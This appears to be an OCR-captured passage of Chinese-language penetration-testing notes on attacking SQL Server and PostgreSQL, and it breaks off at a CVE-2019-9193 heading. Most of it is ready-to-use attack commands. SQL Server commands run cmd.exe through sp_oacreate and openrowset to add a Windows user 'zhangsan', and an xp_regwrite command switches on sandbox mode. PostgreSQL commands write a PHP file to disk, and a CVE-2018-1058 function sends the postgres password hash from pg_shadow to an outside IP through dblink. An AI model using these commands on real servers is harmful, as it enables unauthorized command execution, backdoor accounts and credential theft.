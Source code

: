 declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user zhangsan 123456 /add'



declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user > C:\\windows\\temp\\1.txt'



#### **xp_regwrite 沙盒提权**

当sqlserver无法执行命令，开启沙盒模式

exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1

执行命令

select * from openrowset('microsoft.jet.oledb.4.0' ,';database=c:\windows\system32\ias\ias.mdb' ,'select shell("cmd.exe /c net user zhangsan 121345 /add")')



### **postgresql**

CREATE TABLE user_tbl(name VARCHAR(20), signup_date DATE);

INSERT INTO user_tbl(name, signup_date) VALUES('张三', '2013-12-22');

SELECT * FROM user_tbl;

delete table user_tbl where name = '张三';

drop table user_tbl;



#### **pgsql写文件**

1.  命令行写文件  \copy (select '<?php phpinfo();?>') to '/tmp/1.php'
2.  sql语句写文件create table pwn(t TEXT);

pp

select * from pwn;

copy pwn(t) to '/tmp/1.php'



#### **cve-2018-1058 pgsql 查询越权（普通数据库用户可以充当dba来执行sql语句）**

CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$    select dblink_connect((select 'hostaddr=101.34.185.252 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));     SELECT pg_catalog.array_to_string($1,$2); $$ LANGUAGE SQL VOLATILE;



https://vulhub.org/#/environments/postgres/CVE-2018-1058/



#### cve-2019-9193 pgsql 命令执行

